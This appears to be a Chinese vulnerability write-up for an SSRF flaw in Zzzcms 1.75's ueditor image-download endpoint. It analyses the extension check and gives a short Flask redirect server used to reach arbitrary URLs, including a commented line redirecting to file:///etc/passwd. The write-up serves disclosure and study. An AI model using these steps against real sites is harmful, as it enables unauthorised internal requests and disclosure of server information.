 # Zzzcms 1.75 ssrf

### 一、漏洞简介

存在这个问题的接口主要功能是远程下载保存图片，但是后缀限制死了，因此远程下载webshell的目的应该是达不到了，退而求其次也可以作为SSRF利用，比如需要获取目标主机的真实IP地址的场景下。

### 二、漏洞影响

Zzzcms 1.75

### 三、复现过程

漏洞分析

功能实现在

plugins/ueditor/php/controller.php

![](images/15896939857764.png)


传入的post参数进入safe_url函数进行处理，然后传入down_url函数。这里safe_url函数作用不大，主要是在down_url中的逻辑。

在down_url函数逻辑中根据url获取了保存的文件名和后缀，并且进行了文件名后缀的白名单限制和检测。

![](images/15896939958541.png)


最后通过readfile进行远程资源获取（本地也可以，支持file协议），这里通过file_ext函数传入http://XXXX/x.php?x.jpg得到的文件名后缀仍然是php，对问号进行了处理，因此利用SSRF达到任意地址访问需要利用301/302跳转实现，本地搭建一个提供跳转的http服务器，然后进行访问：


```php
from flask import Flask,redirect,request
app = Flask(__name__)
@app.route('/1.txt')
def index(page_name=''):
    #return redirect('file:///etc/passwd', code=301) #not work
    return redirect('http://www.net.cn/static/customercare/yourip.asp', code=301)
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=9000, debug=app.debug)
```

![](images/15896940111057.png)


![](images/15896940150696.png)


参考链接

https://xz.aliyun.com/t/7414